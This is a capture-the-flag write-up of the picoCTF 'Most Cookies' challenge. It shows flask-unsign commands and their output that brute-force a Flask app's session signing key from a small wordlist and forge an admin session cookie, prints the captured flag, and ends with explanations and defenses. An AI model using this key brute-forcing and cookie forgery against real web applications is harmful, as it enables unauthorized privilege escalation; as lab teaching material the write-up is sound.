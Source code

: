 # Most Cookies

## Challenge
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! 
- server.py 
- http://mercury.picoctf.net:65344/
- Given 2 links
    - First to download the `server.py` file.
    - Second to a web interface that asks for a cookie name.
- Submitting a valid name among a predefined list causes a redirect, and your session state is updated.
- Our goal is to get the flag by forging a session cookie that makes `very_auth = "admin"`.

## Solve
**Flag:** `picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`
### Thought Process.
- Since the challenge has something to do with cookies, we check them first.
- We have a cookie named `session` and a **JWT** token with the value `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aOp8Nw.XWntfJ8NyW-mI-DIfVX76RVRjMM`
- Upon decoding the above token, we get:
    ```json
    {
      "very_auth": "blank"
    }
    ```
- Upon entering the value `snickerdoodle` as the placeholder suggests we get yet another token: `eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aOs_sQ.nPQ856U9hQfpgDjO48D52VXyp0o`.
- This decodes to:
    ```json
      {
          "very_auth": "snickerdoodle"
      }   
    ```
- From the python file provided we get to know the following things:
    - We are provided with a list of available cookies:
        ```python
        cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
        ```
    - A random cookie name is selected as a secret key.
        ```python
        app.secret_key = random.choice(cookie_names)
        ```
    - From the following code we know that:
        ```python
            if session.get("very_auth"):
                check = session["very_auth"]
                if check == "admin":
                    resp = make_response(render_template("flag.html", value=flag_value, title=title))
                    return resp
        ```
        - We must get the correct cookie first.
        - Set the `very_auth` value of that cookie's JWT token to `admin` to trick the website into giving us the flag.

### Execution
- Tools used:
    - `flask-unsign`
- Create a wordlist of the cookies and store it in a `cookies.txt` file to pass it to the above command.
- The following command attempts to brute-force the Flask session signing key of the given web server using the wordlist `cookies.txt`:
    ```
    flask-unsign -u --server "http://mercury.picoctf.net:65344/" --wordlist ~/Downloads/cookies.txt
    [*] Server returned HTTP 302 (FOUND)
    [+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aOtOkQ.P3mOhsOmRXnJuULlFbNwhhe91A8
    [*] Session decodes to: {'very_auth': 'blank'}
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 28 attemptscadamia
    'fortune'
   ```
- The secret cookie is `fortune`.
- We now sign this cookie to give us the admin privileges:
    ```
    flask-unsign -s --cookie "{'very_auth': 'admin'}" --secret fortune                        
    eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aOtOrg.z2Y3YlLR7YivNuuCEDu2z9UTOdg
    ```
- Edit the session cookie JWT on the website with this new obtained JWT token and refresh the page.

### New Learnings
**Cookies** are tiny jars the browser carries for a site: they can hold session data and a signature that says “this came from the server.”

**In this challenge — how an attacker abuses them**
- **Capture** the `session` cookie (browser devtools or a proxy).  
- **Brute‑force** the signing key from the small, known list in the source.  
- **Re‑sign** a crafted session payload, e.g. `{"very_auth":"admin"}`, using the discovered key.  
- **Inject** the forged cookie into the browser or an HTTP request and access the admin/flag page.

**Why it works**
- Flask session cookies are *signed* (integrity), not encrypted (confidentiality).  
- If the signing key is guessable or from a tiny public set, signatures can be forged.

**Defenses**
- Use long, random, private `secret_key`.  
- Store sensitive session state server‑side (avoid client‑stored privileges).  
- Rotate keys and avoid exposing secret lists in source.

### Resources
- [picoGym (picoCTF) Exercise: Most Cookies](https://www.youtube.com/watch?v=YBrhvnEEp24)
